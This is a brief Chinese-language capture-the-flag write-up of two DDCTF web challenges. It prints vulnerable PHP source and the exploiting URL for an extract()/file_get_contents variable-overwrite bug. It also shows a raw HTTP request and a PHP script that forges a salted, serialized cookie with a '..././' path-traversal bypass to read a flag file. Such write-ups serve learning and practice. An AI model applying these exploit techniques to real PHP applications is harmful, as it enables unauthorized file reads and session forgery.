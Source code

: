 # 滴

读取index.php得到index.php

读取117.51.150.246/practice.txt.swp得到f1ag!ddctf.php：

```php
<?php
include('config.php');
$k = 'hello';
extract($_GET);
if(isset($uid))
{
    $content=trim(file_get_contents($k));
    if($uid==$content)
	{
		echo $flag;
	}
	else
	{
		echo'hello';
	}
}

?>
```

读取`117.51.150.246/f1ag!ddctf.php?uid=&$k`得到

DDCTF{436f6e67726174756c6174696f6e73}

# 签到

访问/app/Session.php，nickname=%s获取盐

```http
POST /app/Session.php HTTP/1.1
Host: 117.51.158.44
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3377.1 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: ddctf_id=a%3A4%3A%7Bs%3A10%3A%22session_id%22%3Bs%3A32%3A%227dd47eb6d8d0cf602073d75b1fbda47d%22%3Bs%3A10%3A%22ip_address%22%3Bs%3A13%3A%22210.140.66.56%22%3Bs%3A10%3A%22user_agent%22%3Bs%3A108%3A%22Mozilla%2F5.0+%28Windows+NT+10.0%3B+WOW64%29+AppleWebKit%2F537.36+%28KHTML%2C+like+Gecko%29+Chrome%2F67.0.3377.1+Safari%2F537.36%22%3Bs%3A9%3A%22user_data%22%3Bs%3A0%3A%22%22%3B%7Db621b44aea9340344be7b66bdb959ed0
Connection: close
didictf_username: admin
Content-Length: 11
Content-Type: application/x-www-form-urlencoded

nickname=%s
```

反序列化Application拿flag：

```php
<?php
Class Application {
    var $path = '../config/flag.txt';
}
$eancrykey='EzblrbNS';
$app=new Application();
$app->path=str_replace('../','..././',$app->path);
$cookiedata = serialize($app);
$cookiedata = $cookiedata.md5($eancrykey.$cookiedata);
echo urlencode($cookiedata);
?>
```



